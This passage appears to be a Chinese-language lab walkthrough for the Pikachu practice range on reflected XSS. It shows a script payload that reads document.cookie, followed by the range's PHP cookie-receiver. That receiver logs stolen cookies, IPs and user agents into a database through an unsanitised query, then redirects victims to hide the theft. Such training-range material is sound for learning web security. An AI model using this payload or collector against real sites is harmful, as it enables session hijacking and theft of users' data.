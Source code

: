 试试看能否读取 cookie

```
http://localhost/vul/xss/xss_reflected_get.php?message=<script>alert(document.cookie)</script>&submit=submit
```

可以访问到 cookie

![xss-18](./img/xss-18.png)

接下来, 就可以在自己控制的服务器写个接收 cookie 的接口, 比如 cookie.php, 刚好 Pikachu 靶场自带这样的功能, 以它为例, 并加了关键代码的注释

```php
<?php
	include_once '../inc/config.inc.php';
	include_once '../inc/mysql.inc.php';
	$link=connect();  // 连接数据库

	//这个是获取 cookie 的 api 页面
	if(isset($_GET['cookie'])){  // 通过 GET 参数 cookie 来接收数据
	    $time=date('Y-m-d g:i:s');
	    $ipaddress=getenv ('REMOTE_ADDR');
	    $cookie=$_GET['cookie'];
	    $referer=$_SERVER['HTTP_REFERER'];
	    $useragent=$_SERVER['HTTP_USER_AGENT'];
	    $query="insert cookies(time,ipaddress,cookie,referer,useragent)
	    values('$time','$ipaddress','$cookie','$referer','$useragent')";
	    $result=mysqli_query($link, $query); // 将窃取的数据存入数据库
	}
	header("Location:http://192.168.1.4/pikachu/index.php");//重定向到一个可信的网站，主要起到隐藏作用，避免被发现

	?>
```
